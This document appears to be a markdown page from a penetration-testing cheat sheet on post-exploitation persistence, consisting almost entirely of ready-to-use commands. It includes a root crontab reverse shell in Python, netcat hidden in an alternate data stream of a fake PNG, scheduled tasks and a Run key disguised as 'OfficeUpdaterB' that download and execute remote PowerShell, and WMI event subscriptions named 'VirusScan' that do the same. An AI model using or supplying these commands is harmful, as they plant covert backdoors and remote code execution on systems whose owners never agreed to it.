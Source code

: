 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

{% highlight bash %}
#setsid
setsid *command*

#add user and alternate ssh port
sudo usermod -a -G sudo sshdd
vi /etc/ssh/sshd_config (add port)
sudo service ssh restart

#add to crontab
sudo nano /etc/crontab
*/5 * * * *     root    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.128.0.186",8282));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
Schduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''[]'''))'" /sc onstart /ru System </code>
Scheduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''https://website/page'''))'" /sc daily /st 12:53 </code>
Run Key | <code> REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "OfficeUpdaterB" /t REG_SZ /F /D "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \"IEX ((new-object net.webclient).downloadstring('https://website/page'))\"" </code>



WMI Persistence:

{% highlight bash %} 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
{% endhighlight %}

* http://pwnwiki.io/#!persistence/windows/index.md
* http://www.fuzzysecurity.com/tutorials/19.html
* http://www.hexacorn.com/blog/category/autostart-persistence/page/8/
* https://attack.mitre.org/wiki/Persistence
